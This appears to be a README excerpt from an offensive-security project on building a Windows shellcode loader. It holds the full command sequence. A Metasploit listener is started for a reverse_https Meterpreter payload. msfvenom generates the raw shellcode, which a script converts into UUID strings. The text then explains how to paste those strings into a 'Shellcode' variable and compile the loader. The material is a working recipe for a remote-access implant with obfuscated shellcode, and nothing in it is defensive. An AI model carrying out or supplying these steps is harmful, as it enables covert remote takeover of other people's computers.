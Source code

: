 msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST eth0; set LPORT 443; exploit"
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=eth0 LPORT=443 -f raw -o shell.bin
python3 payload_uuid.py -p shell.bin > shell.txt
In notepad++ Ctrl+h in Replace tab add in Find what field ^(.*)$ and in Replace with field "\1",
Remove from the last line the comma.
![image](https://github.com/user-attachments/assets/6c6aeb08-b354-4f0a-9e07-7adb1fc12b80)

Add the final shellcode to the "Shellcode" variable.
Compile as Release .
![image](https://github.com/user-attachments/assets/6c770e2f-f0c7-4a4b-98ab-a6496ead6438)
